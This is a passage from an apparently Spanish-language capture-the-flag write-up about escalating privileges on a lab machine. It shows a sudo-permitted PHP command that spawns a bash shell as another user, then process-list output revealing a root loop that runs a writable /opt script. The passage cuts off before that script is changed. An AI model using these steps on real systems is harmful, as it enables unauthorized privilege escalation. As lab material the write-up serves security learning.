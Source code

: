 Vemos que podemos ejecutar el binario `php` como el usuario `chocolate`, por lo que haremos lo siguiente:

```shell
CMD="/bin/bash"
sudo -u chocolate php -r "system('$CMD');"
```

Y con esto veremos que seremos dicho usuario.

## Escalate Privileges

Si listamos los procesos de la maquina veremos lo siguiente:

```shell
ps -aux
```

Info:

```
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   2616  1588 ?        Ss   16:45   0:00 /bin/sh -c service apache2 start && while true; do php /opt/script.php; sleep 5; done
root          25  0.0  0.5 201396 22876 ?        Ss   16:45   0:00 /usr/sbin/apache2 -k start
www-data     230  0.0  0.4 201876 18260 ?        S    16:50   0:01 /usr/sbin/apache2 -k start
www-data     270  0.0  0.4 201920 18996 ?        S    16:50   0:01 /usr/sbin/apache2 -k start
www-data     347  0.0  0.4 202040 18064 ?        S    16:52   0:00 /usr/sbin/apache2 -k start
www-data     352  0.0  0.4 202020 18024 ?        S    16:52   0:00 /usr/sbin/apache2 -k start
www-data     353  0.0  0.4 202036 18500 ?        S    16:52   0:00 /usr/sbin/apache2 -k start
www-data     356  0.0  0.4 201868 17936 ?        S    16:52   0:00 /usr/sbin/apache2 -k start
www-data     368  0.0  0.4 202020 18084 ?        S    16:52   0:00 /usr/sbin/apache2 -k start
www-data     375  0.0  0.4 202044 18432 ?        S    16:52   0:00 /usr/sbin/apache2 -k start
www-data     411  0.0  0.4 202316 19132 ?        S    16:53   0:00 /usr/sbin/apache2 -k start
www-data     441  0.0  0.4 201880 18184 ?        S    16:53   0:00 /usr/sbin/apache2 -k start
www-data     826  0.0  0.0   2616  1548 ?        S    17:09   0:00 sh -c sh
www-data     827  0.0  0.0   2616  1588 ?        S    17:09   0:00 sh
www-data    1003  0.0  0.0   2644  2072 ?        S    17:16   0:00 script /dev/null -c bash
www-data    1004  0.0  0.0   2616  1500 pts/0    Ss   17:16   0:00 sh -c bash
www-data    1005  0.0  0.0   4244  3356 pts/0    S    17:16   0:00 bash
root        1068  0.0  0.0   5012  3492 pts/0    S    17:18   0:00 sudo -u chocolate php -r system('/bin/bash');
chocola+    1069  0.0  0.4  67024 18380 pts/0    S    17:18   0:00 php -r system('/bin/bash');
chocola+    1070  0.0  0.0   2616  1580 pts/0    S    17:18   0:00 sh -c /bin/bash
chocola+    1071  0.0  0.0   4248  3328 pts/0    S    17:18   0:00 /bin/bash
root        1104  0.0  0.0   2516  1344 ?        S    17:19   0:00 sleep 5
chocola+    1105  0.0  0.0   5900  2756 pts/0    R+   17:19   0:00 ps -aux
```

Vemos la siguiente linea bastante interesante:

```
/bin/sh -c service apache2 start && while true; do php /opt/script.php; sleep 5; done
```

Por lo que vemos `root` esta ejecutando de forma continua con `5` segundos de descanso el `script` que esta en `/opt` el cual podremos modificar, por lo que haremos lo siguiente:
